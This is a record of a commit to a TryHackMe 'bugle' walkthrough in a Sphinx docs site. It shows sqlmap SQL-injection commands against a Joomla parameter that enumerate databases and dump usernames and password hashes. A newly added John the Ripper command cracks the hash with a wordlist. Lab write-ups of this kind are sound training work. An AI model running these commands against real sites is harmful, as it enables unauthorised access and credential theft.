

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/bugle.md, in a window 1280 px wide and 900 px high, scrolled down 3822 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/docs/thm/bugle.md
+++ b/source/docs/thm/bugle.md
@@ -120,12 +120,16 @@ Run SQLMap using the arguments specified in the exploit:
 
     sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
 
-The [users table](https://docs.joomla.org/Tables/users) may contain credentials to access the Joomla administration
-section.
+Takes ages. Instead, take a shorter route. The [users table](https://docs.joomla.org/Tables/users) may contain
+credentials to access the Joomla administration section.
 
 Dump the username and password columns from the `users` table:
 
     sqlmap -u "http://<IP address target machine>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T "#__users" -C username,password -p list[fullordering] --dump
+
+Put hash in a file named `hash.txt` and crack the hash:
+
+    # john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
 
 ### Privilege escalation
 
```
Also changed, not shown: source/docs/thm/game-zone.md (+1 -1 lines).
